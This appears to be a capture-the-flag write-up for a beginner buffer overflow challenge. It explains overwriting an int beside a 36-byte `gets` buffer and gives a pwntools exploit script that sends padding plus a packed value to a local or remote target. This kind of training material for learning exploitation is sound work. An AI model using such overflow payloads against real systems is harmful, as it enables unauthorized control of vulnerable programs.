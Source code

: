 # 1_bof

`1_bof` is similar to `0_bof` in that it uses `gets` and we need to change a variable to solve this.

Except in this challenge, we change an `int` variable rather than a `char`.

In the source code we can see that `arr` is given 36 bytes and vuln being initialised right next to it. So as we learned in `0_bof`, we need to overflow the 36 byte buffer and then we will gain the ability to write into `vuln`.

The output of the program indicated that it wants the integer `4660` as hex but backwards.

So, to give the raw bytes `0x4321` we use the `pack` function from `pwntools`.

<details>
  <summary>My solution</summary>

```py
from pwn import *

#context.log_level = "debug"
remote_conn = False

IP = ""
PORT = ""
FILENAME = "./1_bof"

if remote_conn:
    p = remote(IP, PORT)
    elf = ELF(FILENAME)
else:
    p = process(FILENAME)
    elf = p.elf

payload = b"A"*36 + pack(0x4321)
p.sendlineafter("backwards?", payload)

p.interactive()
```

</details>
